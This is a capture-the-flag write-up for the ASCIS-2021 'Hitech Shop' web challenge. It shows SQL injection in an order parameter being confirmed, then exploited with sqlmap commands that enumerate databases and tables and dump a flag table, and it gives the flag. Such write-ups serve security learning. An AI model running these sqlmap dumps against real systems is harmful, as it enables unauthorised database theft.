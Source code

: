 # ASCIS-2021 Warm-up - 100pts
* Category: Web 
* Name: Hitech Shop
* Level: None
* Description: None

## Solution
* Overview the challenge provided us a search box i think it `Sql Injection`
![Main function](./challenge.PNG) 
*  I try `double quote` and this is server response 
![Main function](./sqli.PNG)
* After that i save `request` from `BurpSuite` and scan it with sqlmap
![Main function](./request.PNG)
* Run this command in sqlmap `sqlmap -u http://125.235.240.166:20105/index?order=price --time-sec=200 --user-agent=* --dbs --level 5 `i found two databases, but i only attention `vannd` 
![Main function](./sqlmap0.PNG)
* Then i usage command `sqlmap -u http://125.235.240.166:20105/index?order=price --tables -D vannd` for scan `vand` table 
* Finally i found a table contain flag =))))
![Main function](./sqlmap1.PNG)
* Later i scan `flag` table usage this command `sqlmap -u http://125.235.240.166:20105/index?order=price --columns -D vannd -T flag --dump`
![Main function](./sqlmap2.PNG)
* FLAG `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}`
